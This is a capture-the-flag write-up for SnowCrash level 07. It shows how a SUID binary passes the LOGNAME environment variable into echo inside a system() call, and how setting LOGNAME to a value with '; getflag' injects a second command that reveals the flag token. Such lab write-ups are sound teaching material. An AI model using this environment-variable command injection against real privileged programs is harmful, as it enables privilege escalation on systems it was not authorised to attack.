

## Level 07

Starting off with level 07 we use the by now standard `ls`:
```bash
level07@SnowCrash:~$ ll
total 24
drwxrwxrwx 1 level07 level07  120 Jun  5 17:01 ./
d--x--x--x 1 root    users    340 Aug 30  2015 ../
-r-x------ 1 level07 level07  220 Apr  3  2012 .bash_logout*
-r-x------ 1 level07 level07 3518 Aug 30  2015 .bashrc*
-r-x------ 1 level07 level07  675 Apr  3  2012 .profile*
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07*
```

Another binary with the SUID bit set!
Lets try running it to see what happens:

```bash
level07@SnowCrash:~$ ./level07
level07
```
Great, we see the name of out user.. Time to use our trusty Ghidra once again to inspect the binary and dig a little deeper!

## Solution

Opening a new project and analyzing the binary we can see this:



Some of the variable names have been manually renamed for readability but it shows a very clear road ahead.
The binary attempts the retrieve the environment variable `LOGNAME` and wants to print it using `echo` within a `system` call.

The exploit for this is very simple, we can end the `echo` call by using a `;` and then call `getflag` right after.

We simply have to set it as our `LOGNAME`:
```bash
level07@SnowCrash:~$ export LOGNAME="Calling getflag:; getflag"
```

And call the executable again:

```bash
level07@SnowCrash:~$ ./level07 
Calling getflag:
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
